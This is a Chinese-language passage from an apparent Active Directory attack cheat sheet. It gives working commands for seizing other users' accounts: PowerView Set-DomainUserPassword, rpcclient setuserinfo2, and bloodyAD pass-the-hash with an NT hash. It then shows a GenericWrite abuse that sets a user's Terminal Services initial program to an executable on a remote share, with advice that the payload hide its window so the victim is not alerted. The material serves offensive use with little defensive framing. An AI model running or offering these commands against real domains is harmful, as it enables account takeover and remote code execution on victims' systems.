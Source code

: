 	重置其他用户的密码
	Windows 上
	https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
	$user = 'DOMAIN\user1'; 
	$pass= ConvertTo-SecureString 'user1pwd' -AsPlainText -Force; 
	$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
	$newpass = ConvertTo-SecureString 'newsecretpass' -AsPlainText -Force; 
	Set-DomainUserPassword -Identity 'DOMAIN\user2' -AccountPassword $newpass -Credential $creds;
	Linux 上
	使用 Samba 软件套件中的 rpcclient
	>rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
	使用bloodyAD来pass-the-hash
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B changePassword target_user target_newpwd
  #### GenericWrite和远程连接管理器
	https://sensepost.com/blog/2020/ace-to-rce/
	RCM 仅在终端服务器/远程桌面会话主机上处于活动状态。RCM 在最新版本的 Windows (>2016) 上也被禁用，它需要更改注册表才能重新启用。
	$UserObject = ([ADSI]("LDAP://CN=User,OU=Users,DC=ad,DC=domain,DC=tld"))
	$UserObject.TerminalServicesInitialProgram = "\\1.2.3.4\share\file.exe"
	$UserObject.TerminalServicesWorkDirectory = "C:\"
	$UserObject.SetInfo()
	为了不提醒用户，payload 应该隐藏自己的进程窗口并生成正常的图形环境